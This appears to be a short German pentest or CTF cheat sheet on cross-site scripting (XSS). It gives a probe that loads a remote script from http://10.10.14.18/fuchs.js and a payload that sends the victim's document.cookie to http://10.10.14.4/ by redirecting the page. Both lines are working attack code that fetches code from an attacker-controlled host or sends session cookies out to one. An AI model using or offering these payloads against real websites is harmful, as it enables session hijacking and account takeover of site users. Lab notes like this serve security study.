 # XSS
## Prüfen ob eine Attacke möglich ist
```html
<script src="http://10.10.14.18/fuchs.js"></script>
```


## Mögliche Payloads

### Cookies klauen
```js
document.location = 'http://10.10.14.4/' + document.cookie;
```

